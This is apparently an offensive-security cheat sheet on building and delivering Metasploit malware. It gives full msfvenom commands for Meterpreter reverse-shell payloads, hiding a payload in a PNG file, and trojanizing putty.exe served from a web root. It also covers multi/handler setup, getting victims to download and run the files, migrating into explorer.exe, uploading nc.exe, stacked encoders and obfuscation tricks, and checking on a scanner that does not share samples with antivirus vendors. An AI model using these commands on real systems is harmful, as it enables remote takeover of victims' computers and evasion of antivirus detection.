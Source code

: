*--> Typical shellcode has a length of 300 to 400 Bytes*

## Example: Hide payload in benign file
- `msfvenom -p php/meterpreter/reverse_tcp lhost=IPv4 lport=8080 >> /home/Desktop/123.png`

## Example: Reverse Shell

**1. Kali**
- `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=IPv4 LPORT=443 -f exe -o payload`
   - for Android application: -f raw (because .apkis not available)
   - Optional: msfvenom --list formats (to check available formats)
   - Optional: msfvenom --list payloads (to check available payloads)

**2. Windows: Let victim download malware**

**3. Kali**
- msfconsole use exploit/multi/handler
- set payload windows/meterpreter_reverse_tcp
- set LHOST (Best Practice: 0.0.0.0 = accept connection on all IPs from anyone)
- set LPORT 443
- run

**4. Windows: Execute Malware**

**5. Kali: Meterpreter** 
- upload /usr/share/windows-binaries/nc.exe (upload further software on target)
- Info gathering on target: getuid, getprivs, getsystem
- Implement other extensions: load -l (Bsp: kiwi)

## Example: Putty-Trojan

- Carrier Application (CA): putty.exe 32Bit Binary File
- Wrapper: msfvenom (to combine payload and CA) 

1. `msfvenom -p windows/meterpreter_reverse_tcp LHOST=IPv4 LPORT=8080 -x /root/putty.exe -k -f exe -o /var/www/html/putty.exe`
   - x = Carrier Application
   - k = to execute both payload and carrier application 
2. Let victim download carrier application onto target system 
3. Kali: Meterpreter exploit/multi/handler 
4. Session starts/closes as soon as carrier application gets executed/closed
5. Attach your payload to another legitimate process to get independent of carrier application:
   - Example of legitimate process on Windows: explorer.exe 
   - Open terminal on Windows target system: `ps -S explorer`
   - remember PID 
6. Meterpreter: migrate [PID]

## Obfuscation Best Practice

1. Encoder: modify/rewrite binary
2. Packer: compression
3. Crypter: simple encryption
4. Wrapper/Embedder: hide payload inside legitimate program
5. Encryption (SSH, Ipsec, TLS)
6. Steganography
7. Covert Channel (misuse of legitimates channels)
8. Self written Payload has best stealth potential!

## Encoding

**Get an overview**
- `msfvenom -l encoders`

**Encoding Example #1**
- `msfvenom -p windows/meterpreter_reverse_tcp LHOST=IPv4 LPORT=8080 -a x86 --platform windows -e x86/shikata_ga_nai -i 130 -x /root/putty.exe -k -f exe -o /var/www/html/putty.exe`

**Encoding Example #2**
- `msfvenom -p windows/meterpreter_reverse_tcp LHOST=IPv4 LPORT=8080 -a x86 --platform windows -e x86/countdown -i 10 -x /root/putty.exe -k -f raw | msfvenom -a x86 --platform windows -e shikata_ga_nai -i 15 -f exe -o double-encoded-putty.exe`


## Check Payload Stealthiness

- virustotal.com
    - more AV-filters in place but distribution with AV-companies
- nodistribute.com
    - less AV-filters in place but no distribution among AV-companies 
